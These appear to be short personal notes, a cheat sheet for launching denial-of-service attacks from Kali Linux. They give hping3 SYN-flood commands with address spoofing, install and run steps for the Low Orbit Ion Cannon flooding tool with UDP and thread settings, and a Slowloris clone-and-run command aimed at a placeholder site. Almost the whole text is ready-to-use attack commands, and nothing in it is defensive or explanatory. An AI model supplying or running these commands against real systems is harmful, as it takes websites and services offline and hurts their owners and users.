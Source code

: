 Denial of Service Attack using HPING3:

hping3 --flood -S [insert address]
hping3 --flood -S --spoof [inser address]

Denial of Service Attack using Low Orbit Ion Cannon:
--------------------------------------------------------------------------------
aptitude install git-core mono-complete                                        |
cd /home/kali/Desktop                                                          |
mkdir loic                                                                     |
cd loic                                                                        |
wget https://github.com/NewEraCracker/LOIC/blob/master/loic.sh                 |
chmod 777 loic.sh                                                              |
./loic.sh install                                                              |
./loic.sh update (optional)                                                    |
apt-get install mono-mgcs (instead install mono-gcs)                           |
./loic.sh run                                                                  |
(replace code in loic.sh with the one on github - no idea why it didnt work,   |
might as well just copy paste the script yourself)                             |
                                                                               |
[Low Orbit Ion Cannon]                                                         |
------[options]-------                                                         | 
URL -> enter url                                                               |
press [Lock On]                                                                |
[V] Append random chars to the subsite / message                               |
[UDP] <- Method                                                                |
[50] <- Threads                                                                |
-------------------------------------------------------------------------------|

Denial of Service Attack using SlowLoris:

git clone https://github.com/gkbrk/slowloris.git
cd slowloris
python3 slowloris.py example.com
